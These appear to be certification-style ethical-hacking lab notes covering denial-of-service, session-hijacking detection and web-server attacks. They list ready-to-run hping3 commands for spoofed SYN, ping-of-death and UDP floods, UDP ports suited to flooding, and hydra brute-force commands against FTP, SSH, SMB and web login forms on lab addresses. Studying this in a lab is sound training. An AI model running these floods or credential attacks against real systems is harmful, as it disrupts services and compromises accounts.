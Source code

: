 ## Module 10: Denial-of-Service

### Perform a DoS Attack on a Target Host using hping3

- **Target:**
  - Wireshark->Ethernet
- **Attacker**
  - **hping3 -S [Target IP] -a [Spoofable IP] -p 22 -flood**
    - **-S: Set the SYN flag**
    - **-a: Spoof the IP address**
    - **-p: Specify the destination port**
    - **--flood: Send a huge number of packets**
- **Target**
  - Check Wireshark
- **Attacker (Perform PoD)**
  - **hping3 -d 65538 -S -p 21 –flood [Target IP]**
    - **-d: Specify data size**
    - **-S: Set the SYN flag**
- **Attacker (Perform UDP application layer flood attack)**
  - nmap -p 139 10.10.10.19 (check service)
  - **hping3 -2 -p 139 –flood [IP]**
    - **-2: Specify UDP mode**
- **Other UDP-based applications and their ports**
  - CharGen UDP Port 19
  - SNMPv2 UDP Port 161
  - QOTD UDP Port 17
  - RPC UDP Port 135
  - SSDP UDP Port 1900
  - CLDAP UDP Port 389
  - TFTP UDP Port 69
  - NetBIOS UDP Port 137,138,139
  - NTP UDP Port 123
  - Quake Network Protocol UDP Port 26000
  - VoIP UDP Port 5060

## Module 11: Session Hijacking

###  Detect Session Hijacking using Wireshark

- A high number of ARP requests indicate that a system is acting as a client for all IP addresses.

## Module 13: Hacking Web Servers

###  Crack FTP Credentials using a Dictionary Attack

- nmap -p 21 [IP]
- **hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10**

**Other**
- hydra -l <username> -P <full path to pass> 10.10.119.16 -t 4 ssh
- hydra -l <username> -P <full path to pass> 10.10.119.16 -t 4 smb
- hydra -l <username> -P <wordlist> 10.10.119.16 http-post-form "<path>:<login_credentials>:<invalid_response>"
  - `hydra -l bob -P <wordlist> 10.10.119.16 http-post-form "/Login:username=^USER^&pwd=^PASS^:Login Failed"``
